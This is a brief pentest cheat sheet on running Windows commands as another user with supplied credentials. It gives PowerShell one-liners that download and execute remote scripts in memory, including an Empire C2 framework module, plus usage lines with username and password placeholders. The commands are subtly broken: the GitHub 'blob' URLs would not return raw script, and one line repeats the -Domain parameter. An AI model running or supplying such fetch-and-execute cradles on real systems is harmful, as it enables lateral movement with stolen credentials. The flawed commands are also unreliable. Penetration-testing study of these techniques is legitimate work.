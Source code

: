 # Scripts

## Invoke-RunAs

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1')

PS C:\> Invoke-RunAs -UserName "<username>" -Password "<password>" -Cmd <command> [-Arguments "<arguments>"]
```

## Start-ProcessAsUser

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Start-ProcessAsUser.ps1')

PS C:\> Start-ProcessAsUser -Domain <domain>.<tld> "<username>" -Password "<password>" -Domain "<DOMAIN>" -Cmd "<command> [arguments]"
```

---
## References

- [Pentester's Promiscous Notebook: RunAs](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas)
